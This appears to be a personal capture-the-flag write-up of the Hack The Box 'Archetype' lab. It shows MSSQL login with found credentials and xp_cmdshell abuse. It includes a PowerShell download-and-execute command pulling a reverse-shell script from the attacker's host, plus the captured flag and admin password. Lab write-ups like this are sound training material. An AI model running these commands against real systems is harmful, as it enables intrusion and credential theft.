 # Archetype (10.10.10.27) MSSQL
#archetype
## Summary
- Found user flag
- Found adminstrator credentials
## Procedure
1. Anonymous Authentication (Failed)
2. Authenticate as ARCHETYPE\sql_svc
	```
	tyler@tyler-ops:~/Documents/learn/htb/starting_point/archetype$ mssqlclient.py -windows-auth ARCHTYPE/sql_svc:M3g4c0rp123@10.10.10.27
	Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

	[*] Encryption required, switching to TLS
	[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
	[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
	[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
	[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
	[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
	[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
	[!] Press help for extra shell commands
	SQL> help

		 lcd {path}                 - changes the current local directory to {path}
		 exit                       - terminates the server process (and this session)
		 enable_xp_cmdshell         - you know what it means
		 disable_xp_cmdshell        - you know what it means
		 xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
		 sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
		 ! {cmd}                    - executes a local shell cmd

	SQL>
	```
	![[Pasted image 20210816150405.png]]
3. enable_xp_cmdshell
4. Start http server
	- `python3 -m http.server`
5. Listen on port 3602
	- `ncat -nvlp 3602`
6. Execute Revershell
	```
	xp_cmdshell powershell IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.54:8000/scripts/twof_reverse_shell.ps1\");`
	```
	```
	tyler@tyler-ops:~/Documents/learn/htb/starting_point/archetype$ ncat -nvlp 3602
	Ncat: Version 7.91 ( https://nmap.org/ncat )
	Ncat: Listening on :::3602
	Ncat: Listening on 0.0.0.0:3602
	Ncat: Connection from 10.10.10.27.
	Ncat: Connection from 10.10.10.27:49675.
	whoami
	archetype\sql_svc
	```
	![[Pasted image 20210816154950.png]]
	- Reverse shell based on script from [PayloadsAllTheThings](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)
7. Found user flag
	```
	cd C:\Users\sql_svc\Desktop

	pwd

	Path
	----
	C:\Users\sql_svc\Desktop



	cat user.txt
	3e7b102e78218e935bf3f4951fec21a3
	```
	![[Pasted image 20210816155229.png]]
	- User flag: `3e7b102e78218e935bf3f4951fec21a3`
8. Found admin credentials
	```
	cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine

	cat ConsoleHost_history.txt
	net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
	exit
	```
	![[Pasted image 20210816160541.png]]
	- User: `administrator`
	- Pass: `MEGACORP_4dm1n!!`